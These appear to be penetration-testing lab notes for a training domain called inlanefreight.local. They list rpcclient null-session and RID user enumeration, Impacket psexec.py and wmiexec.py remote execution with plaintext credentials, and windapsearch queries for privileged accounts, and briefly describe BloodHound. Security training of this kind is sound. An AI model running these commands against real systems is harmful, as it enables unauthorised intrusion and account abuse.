 ```shell
rpcclient -U "" -N 172.16.5.5
```

rpcclient Enumeration

RPCClient User Enumeration By RID

```shell
rpcclient $> queryuser 0x457
```

Enumdomusers

```shell
rpcclient $> enumdomusers
```

## Impacket Toolkit

Psexec.py

```shell
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125  
```

wmiexec.py

```shell
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5  
```

## Windapsearch

```shell
windapsearch.py -h
```

Windapsearch - Domain Admins

```shell
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da
```

Windapsearch - Privileged Users

```shell
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 -PU
```

## Bloodhound.py

The tool consists of two parts: the [SharpHound collector](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors) written in C# for use on Windows systems, or for this section, the BloodHound.py collector (also referred to as an `ingestor`) and the [BloodHound](https://github.com/BloodHoundAD/BloodHound/releases) GUI tool which allows us to upload collected data in the form of JSON files. Once uploaded, we can run various pre-built queries or write custom queries using [Cypher language](https://blog.cptjesus.com/posts/introtocypher). The tool collects data from AD such as users, groups, computers, group membership, GPOs, ACLs, domain trusts, local admin access, user sessions, computer and user properties, RDP access, WinRM access, etc.
